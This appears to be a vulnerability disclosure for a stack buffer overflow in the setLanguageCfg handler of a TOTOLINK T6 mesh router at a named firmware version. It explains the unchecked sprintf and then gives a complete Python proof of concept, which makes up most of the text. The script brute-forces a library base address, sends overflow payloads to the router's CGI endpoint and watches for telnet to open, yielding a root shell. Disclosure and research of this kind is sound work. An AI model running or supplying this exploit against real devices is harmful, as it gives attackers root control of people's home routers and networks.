 # Information

**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Affected products:** [T6](https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/190.html)

**Affected firmware version:** V4.1.5cu.748_B20211015

**Firmware download address:** [Download Page](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/190/ids/36.html)

# Overview

TOTOLINK Mesh Wifi T6 router has a buffer overflow vulnerability that lead to RCE. This vulnerability can be triggered through the topicurl ` setLanguageCfg`. An attacker can implement a RCE attack by sending a malicious HTTP POST request.

# Vulnerability details

The `product_info` is 256 bytes.

![](2/1.png)

`lang` is the param attacker control.

![](2/2.png)

`sprintf` doesn't check length of `lang`. When the attacker send a malicious `lang` param, the saved ret_address will be overwrite. Lead it to execute whatever the attacker want.

![](2/3.png)

Attacker can reboot the system or bruteforce the base of dynamic library to do ROP chain attack. In the POC video, the attacker turn on `telnet` to achive root shell.

# POC

```python
import requests, sys, threading, time, queue, random, struct, socket, os

MAX_ADDR = 2 ** 12
WORKER_AMOUNT = 4

START_TIME = 0

brute_queue = queue.Queue()

def worker(target_ip):
    while True:
        try:
            brute_val = brute_queue.get_nowait()
        except queue.Empty:
            break
        
        print("  [-] Trying 0x%x" % brute_val)

        url = f"http://{target_ip}/cgi-bin/cstecgi.cgi"

        brute_base = 0x77000000 
        telnetd_str_off = 0x5BA4

        brute_val = brute_val * 0x1000 + brute_base # base of /lib/libdl-0.9.33.so
        brute_val += 0x11c000

        brute_telnet_str = brute_val + telnetd_str_off

        temp = struct.pack("<I", brute_telnet_str)

        payload = b"A" * 324 + temp + b"C" * 4 + b"\x08\x88\x40"

        data = b'''
        {
            "topicurl":"setLanguageCfg",
            "lang":"%s",
            "langAutoFlag":"sad POC"
        }
        ''' % (payload)

        requests.post(url, data=data)

def check_telnet(target_ip):
    global START_TIME
    print("[+] Check telnet port !!")
    while True:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
            sock.settimeout(1)
            try:
                sock.connect((target_ip, 23))
                print(f"[+] Found !!")
                print(f"[+] Script run: {round(time.time() - START_TIME)}s")
                os._exit(0)
            except (socket.timeout, socket.error):
                continue
        time.sleep(1)

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print(f"[-] Usage: {sys.argv[0]} target_ip")
        exit(0)

    START_TIME = time.time()
    print(f"[+] Wish me luck !!")
    
    brutes = list(range(0x10, MAX_ADDR))
    random.shuffle(brutes)

    for brute in brutes:
        brute_queue.put(brute)
    
    threads = []
    for _ in range(WORKER_AMOUNT):
        t = threading.Thread(target=worker, args=(sys.argv[1],))
        t.start()
        threads.append(t)

    t2 = threading.Thread(target=check_telnet, args=(sys.argv[1],))
    t2.start()
    threads.append(t2)

    for t in threads:
        t.join()
```

[POC 1](https://www.youtube.com/watch?v=0rEefcxuqpU) - Turn on telnet by bruteforcing dynamic library base<br>
[POC 2](https://www.youtube.com/watch?v=jSMOeIb6dLY) - Force the system to reboot